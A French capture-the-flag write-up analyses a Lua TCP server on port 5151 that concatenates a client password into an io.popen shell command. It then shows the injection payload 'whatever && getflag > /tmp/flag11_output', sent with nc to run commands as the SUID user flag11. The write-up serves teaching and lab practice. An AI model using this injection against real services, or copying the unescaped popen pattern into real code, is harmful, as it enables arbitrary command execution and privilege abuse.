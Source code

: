 # Niveau 11 : Injection de Commandes via un Script Lua

## Analyse du Programme : `level11.lua`

Le script Lua fourni (`level11.lua`) met en place un serveur TCP simple écoutant sur `127.0.0.1:5151`.

**Fonctionnalité :**

1.  **Écoute les Connexions :** Il attend que les clients se connectent au port 5151 en utilisant `socket.bind` et `server:accept()`.
    ```lua
    local server = assert(socket.bind("127.0.0.1", 5151))
    -- ... plus tard dans la boucle ...
    local client = server:accept()
    ```
2.  **Demande le Mot de Passe :** Lors de la connexion, il envoie une invite "Password: " au client.
    ```lua
    client:send("Password: ")
    ```
3.  **Reçoit l'Entrée :** Il lit la ligne de texte envoyée par le client.
    ```lua
    local l, err = client:receive()
    ```
4.  **Hache l'Entrée :** Il définit une fonction `hash` qui prend l'entrée du client (`pass`) et construit/exécute une commande shell en utilisant `io.popen` pour obtenir le hachage SHA-1.
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()
      data = string.sub(data, 1, 40)
      return data
    end
    -- ... appelée plus tard avec ...
    local h = hash(l)
    ```
5.  **Compare le Hachage :** Il compare le hachage SHA-1 calculé (`h`) avec un hachage cible codé en dur.
    ```lua
    if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
        -- Gérer la non-correspondance
    else
        -- Gérer la correspondance
    end
    ```
6.  **Envoie le Résultat :** Il envoie "Gz you dumb\*\n" si les hachages correspondent, ou "Erf nope..\n" sinon.
    ```lua
    client:send("Erf nope..\n");
    -- ou
    client:send("Gz you dumb*\n")
    ```
7.  **Ferme la Connexion :** Il ferme la connexion client.
    ```lua
    client:close()
    ```

Le script s'exécute avec les permissions SUID/SGID pour `flag11`, ce qui signifie que toute commande exécutée via `io.popen` s'exécutera en tant qu'utilisateur `flag11`.

## Vulnérabilité : Injection de Commandes

Le détournement de chemin (path hijacking) du niveau 03 ne fonctionnerait pas ici car le serveur tourne déjà avec son propre environnement lorsque nous démarrons le niveau.
Dans ce cas, la vulnérabilité critique réside dans la fonction `hash`, spécifiquement dans la ligne :

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Le script concatène directement l'entrée fournie par l'utilisateur (pass) dans la chaîne de commande shell sans aucune désinfection ni échappement. Cela permet à un client malveillant d'injecter des métacaractères shell (comme ;, &&, ||, $(...), `...`) pour exécuter des commandes arbitraires sur le serveur avec les privilèges de l'utilisateur flag11.

## Exploitation
Pour exploiter cela, nous devons nous connecter au serveur et envoyer une charge utile (payload) qui inclut un séparateur de commandes suivi de la commande getflag.

Une méthode fiable consiste à rediriger la sortie de getflag vers un fichier que nous pourrons lire plus tard.

1. **Se connecter au serveur**:
    ```bash
    nc 127.0.0.1 5151
    ```
2. **Envoyer la charge utile**: Lorsque le mot de passe est demandé, envoyez une chaîne contenant l'injection de commande. 
    Nous redirigeons la sortie de getflag vers un fichier temporaire (par exemple, /tmp/flag11_output) :
    ```bash
    whatever && getflag > /tmp/flag11_output
    ```
    (Note: Le texte spécifique avant &&, comme "whatever", n'a pas d'importance pour l'injection elle-même)

3. **Recevoir la Réponse du Serveur**: Le serveur répondra probablement par "Erf nope..\n" car la comparaison de hachage échouera (la sortie de getflag n'est pas le hachage attendu).

4. **Lire le Drapeau**: Une fois la connexion fermée, lisez le contenu du fichier de sortie :
    ```bash
    cat /tmp/flag11_output
    ```

Cela affichera le drapeau nécessaire pour se connecter en tant que flag11 (par exemple, Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s).
